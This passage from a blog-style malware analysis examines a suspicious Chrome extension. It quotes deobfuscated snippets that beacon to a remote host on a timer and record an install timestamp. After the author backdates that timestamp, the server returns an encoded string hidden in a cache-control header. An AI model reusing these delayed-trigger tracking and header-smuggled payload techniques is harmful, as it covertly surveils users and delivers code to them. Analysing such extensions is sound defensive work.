![](https://github.com/Spiderpig86/blog/raw/master/images/Extensions%20Google%20Chromes%20Soft%20Underbelly%20Part%202/ext2-pt2.PNG)

After about 60 seconds, another request is made to the same host. The same response headers are updated in local storage. A possible explanation for this is to have a backup in case the first request failed.

```js
function t(a) {
    var b = new Image,
        c = Math.random();
    c += 1, c > 2 ? b.src = ["https://www.google-analytics.com/_utm.gif?", m(), k(), l(), i(), n(), j(a), p()].join("").replace(/&$/, "") : b.src = ["https://", x[2], g(), q(), m()].concat(s([k(), l(), i(), n(), o(), j(a), p()])).join("").replace(/&$/, "")
}

/* ------------------------------------------------- */

// Separate IIFE
setTimeout(function() {
    t(b) // b the random id
}, 6e4)
```

![](https://github.com/Spiderpig86/blog/raw/master/images/Extensions%20Google%20Chromes%20Soft%20Underbelly%20Part%202/ext3-pt2.PNG)

Looking at the stored fields in local storage, we see an interesting field called `installedTime`, which holds the UNIX timestamp of when I installed the extension. This gave me a couple of ideas, such as modifying the installed time code in the extension to see how it behaves as more time passes. The following code sets this field.

```js
window.localStorage.userSettings = "config", C(), c(),
		function() {
			"undefined" == typeof window.localStorage.installedTime && (window.localStorage.installedTime = Date.now());
			var b = "nop",
				c = "user_id";
    // ...
```

I then modified `Date.now()` to a timestamp that was six months ago and restarted the browser. This time, I see that the header field for `cache-control` contains something a little bit extra. Rather than just having the [expected values](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control) for the `cache-control` field, there is a string attached at the end of `no-cache` value:

```
no-cache,NTM2MTEzeChZb1koQTBfFX5pWRY4FFNLexxTNhogb0dlOlFFHHxoLQ1uVFlYBDJ7CHIKZ1pdWlR-eV4xVTNkIUJBMCM6K1UqFUpEEX13bVt6WRFfVjxwSD8KbjUuGx03NSFhGmBhZiExVEUUQFFbOXBUZV13LC1X
```

So why did I try modifying the date? Was it a stroke of luck? Why, no. You see, this approach of relying on the date to trigger a particular behavior isn't some newfangled strategy but rather something that dates back to the MS-DOS days. A very well known DOS virus is called [Jerusalem](https://en.wikipedia.org/wiki/Jerusalem_(computer_virus)), which infected every executable file on the system every Friday the 13th except in 1987. 
